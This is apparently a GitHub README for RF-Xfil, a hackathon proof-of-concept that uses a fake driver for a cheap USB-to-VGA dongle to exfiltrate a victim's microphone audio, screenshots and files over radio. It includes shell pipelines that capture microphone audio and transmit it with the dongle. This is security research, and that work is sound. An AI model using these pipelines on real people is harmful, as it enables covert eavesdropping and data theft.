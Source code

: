 # RF-Xfil | Prototype Toolkit for Data Exfiltration over Radio Frequencies
## Started by Jie Feng, Ragul & Andre Dec 2018 @ HackSmith v2.0

![HackSmith v2 Award](misc/HackSmith_Award.jpg)

Imagine your dongle (of which many modern devices depend on) is exfiltrating information over RF! Thats exactly the Proof-Of-Concept we managed to showcase at HackSmith v2 over the 8-9 Dec 2018 weekend.

By writing "simulated malicious" code masquerading as the device driver for a inexpensive off the shelf USB-to-VGA dongle based off the infamous Fresco Logic FL2000 chipset, we were able to exfiltrate not only the audio from the victim laptop's microphone and SSTV of a screenshot, but also built modulation (inspired by fax and work done by romanz/amodem) robust enough to transfer screenshots and any arbitary files.

Demodulation code to be used with generic inexpensive RTL-SDRs is also in here.

We feel that more people should take an active interest in & do research into electronics & RF.

Lets see what other overpowered embedded devices can be used to do mindblowing things.

### Platforms
Supported platforms: Linux
osmo-fl2k works best with Linux

### Dependencies
osmo-fl2k
CSDR
Liquid DSP


### Installation

1. Install Dependencies required
Example: ubuntu
```
sudo apt install build-essential cmake pkg-config libfftw3-dev libusb-1.0-0-dev automake
```
2. run autoinstall.sh
```
./autoinstall.sh
```

### Using RF-Xfil main features
To find your sound input device:

#### Microphone
```
pacmd list-sources | grep alsa_input
        name: <alsa_input.pci-0000_00_1f.3.analog-stereo>
```

#### Monitor input
```
pacmd list-sources | grep name | grep monitor
        name: <alsa_output.pci-0000_00_1f.3.analog-stereo.monitor>
```

Transmitting audio:
Replace the '-d' with the one appriopriate to your purposes
AM:
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | csdr convert_i16_f | csdr dsb_fc | csdr add_dcoffset_cc | csdr convert_f_i16 | src/fl2k_iq - -s 130e6 -c 40e6 -i 44100
```
SSB(USB):
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | csdr convert_i16_f | csdr dsb_fc | csdr bandpass_fir_fft_cc 0 0.1 0.01 | csdr gain_ff 2 | csdr shift_addition_cc 0.2 | src/fl2k_iq - -s 130e6 -c 40e6 -i 44100
```

WBFM:
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | pv -B 256k | fl2k_fm - -s 130e6 -c 40e6 -i 44100
```

Additionally, you can use your own data modulator/demodulator such as (AudioNetwork)[https://github.com/robertrypula/AudioNetwork] or (amodem)[https://github.com/romanz/amodem]

### Limitations

fl2k_iq does not work very well (sometimes not at all) when there isn't a constant carrier (like SSB modes). Hypothesis is that the chip itself switches power modes(?) which causes delays.

fl2k_iq creates spurious signals at frequency +/- sample_frequency
### Languages
English only (translations welcome)
